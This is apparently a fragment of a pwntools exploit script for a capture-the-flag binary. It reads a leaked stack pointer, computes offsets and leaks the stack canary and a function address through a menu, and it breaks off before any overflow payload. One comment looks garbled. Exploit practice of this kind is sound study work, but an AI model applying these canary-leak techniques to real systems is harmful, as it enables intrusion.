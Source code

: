 ```
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

# Possible canary offset from provided stack pointer:
# 21 (0x15), -1363 (0-x553)
# win function offset: 0x76d
# __libc_csu_init offset = 0x9a0
# 0xffe9f84c —▸ 0x5664c9eb (__libc_csu_init+75) ◂— 0x8301c783
# 0xffe9f85c —▸ 0x5664c9c1 (__libc_csu_init+33) ◂— 0xff00838d

p.recvuntil(b'useful stack pointer ', drop=True)
stack_pointer = p.recvline()
log.info(stack_pointer)
stack_pointer_canary = int(stack_pointer, 16) + 105
#log.info(str(stack_pointer_canary))
stack_pointer_function = int(stack_pointer, 16) + 69
#log.info(str(stack_pointer_function))
#
canary_addr = p32(stack_pointer_canary)
# This stack addr points to the __libc_csu_init+75 function address
function_addr = p32(stack_pointer_function)
log.info(str(canary_addr))
log.info(str(function_addr))


# Leak canary
p.recvuntil(b'quit', drop=True)
p.sendline(b'a')
p.recvuntil(b'len: ', drop=True)
p.sendline(b'6')
p.sendline(canary_addr)

p.recvuntil(b'quit', drop=True)
p.sendline(b'b')
p.recvline()
canary = p.recvline()
log.info(f"Canary: {canary}")
canary = canary[22:26]
log.info(f"Canary: {canary}")

# Leak function
p.recvuntil(b'quit', drop=True)
p.sendline(b'a')
p.recvuntil(b'len: ', drop=True)
p.sendline(b'6')

p.sendline(function_addr)

p.recvuntil(b'quit', drop=True)
p.sendline(b'b')
p.recvline()
function = p.recvline()
log.info(f"Function: {function}")
function = function[22:26]
log.info(f"Function: {function}")

```